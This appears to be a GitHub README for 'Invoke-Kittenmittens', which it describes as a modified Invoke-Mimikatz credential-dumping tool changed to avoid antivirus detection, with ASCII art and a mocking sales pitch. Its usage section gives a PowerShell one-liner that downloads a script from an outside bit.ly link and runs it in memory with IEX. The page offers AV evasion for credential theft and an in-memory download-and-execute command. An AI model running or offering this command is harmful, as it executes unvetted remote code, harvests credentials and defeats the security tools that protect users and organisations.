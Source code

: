 # Invoke-Kittenmittens
Modified "Invoke-Mimikatz" to avoid AV detection

```
                                     |-\
    ___  .  ,     __    _    .       \  \
     |   | /     |  \  / \  /|        |  |
     |   |/      |__/  \_    |        |  \
     |   |\      |       \   |        |  |
    _|_  | \  .  |     \_/  _|_       |  |
                                      |  |
      ___,                            /  /
 ---``    \_     ________---______   |  /
 \           ```                ```-/  /
  }                                    \
  {                                     \
    \ |                                 |
      |                                 |
      |                                 |
      |         _ ------ - ,           /
      /       /  \    |      -        /
     |      /     l   |       ` - _    \
     L__  /        \  |           \\__,L
    /   7           l`T            //  /
 ~``  /             | |          //`  /
{___,~             {__/          \\__/
```

Is your Mimikatz making too much noise all the time? Is your Mimikatz constantly stomping around and triggering AV? Think there's no answer? You're so stupid! There is! Invoke-Kittenmittens.

# Usage

Run Invoke-Kittenmittens in-memory via a single, condensed CMD command:
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2mgBLOs'); ik"
```
